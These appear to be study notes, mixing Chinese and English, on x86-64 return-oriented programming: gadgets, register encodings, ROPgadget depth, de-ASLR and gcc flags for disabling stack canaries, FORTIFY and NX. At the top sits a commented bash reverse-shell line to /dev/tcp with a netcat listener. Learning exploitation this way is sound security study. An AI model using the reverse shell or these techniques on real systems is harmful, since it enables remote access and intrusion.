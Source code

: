 ```bash
# system("bash -c 'bash -i >& /dev/tcp/127.0.0.1/31337 0>&1'")
nc -vlp 31337
```


# ROP for x86-64

**64-bin ROP**

-   _syscall 要用rax,rdi,rsi,rdx,rcx,r8,r9,syscall_
-   _Function call参数传递适用寄存器而不是栈 rdi,rsi,rdx,rcx,r8,r9_
-   _需要用pop-ret控制register，再接function address_

**64-bit register**

-   _rax,rcx,rdx,rbx,rsp,rbp,rsi,rdi_
-   _r8-r15是用前8个加上rex prefix来表示_
-   _r12-r15是callee saved，所以pop r12 - r15在function return前很常见_
-   _pop r14 = 415e / pop rsi = 5e_
-   _pop r15 = 415f / pop rdi = 5f_

**ROPgadget**
ROPgadget预设的搜索长度对64位来说可能不太够，需要增加--depth

```bash
ROPgadget --binary ./binary --depth 100
```

**通用gadget**

-   _64bit rop需要gadget控制参数_
-   _gcc的程序中有一些片段一定会有，可以用来做rop，构造ret2lib不是问题_

![w5-x64-rdi-rsi](w5-x64-rdi-rsi.png)

![w5-x64-rdi](w5-x64-rdi.png)

![w5-x64-rax](w5-x64-rax.png)

![w5-x64-rcx](w5-x64-rcx.png)

![w5-x64-rax2mem](w5-x64-rax2mem.png)

**De-ASLR with ROP**
_Calculate Runction Address without Information Leakage_

![w5-deaslr](w5-deaslr.png)

![w5-dl-rtresov](w5-dl-rtresov.png)

**Linux 常用保护机制开关方法**

```bash
# cannary 栈保护
gcc -o test test.c  # 默认情况下，不开启Canary保护
gcc -fno-stack-protector -o test test.c  #禁用栈保护
gcc -fstack-protector -o test test.c  #启用堆栈保护，不过只为局部变量中含有 char 数组的函数插入保护代码
gcc -fstack-protector-all -o test test.c  #启用堆栈保护，为所有函数插入保护代码

# FORTIFY 检查是否存在缓冲区溢出的错误
gcc -o test test.c  #默认情况下，不会开这个检查
gcc -D_FORTIFY_SOURCE=1 -o test test.c  #较弱的检查
gcc -D_FORTIFY_SOURCE=2 -o test test.c  #较强的检查

# NX（DEP）No-eXecute
gcc -o test test.c  #默认情况下，开启NX保护
gcc -z execstack -o test test.c  #禁用NX保护
```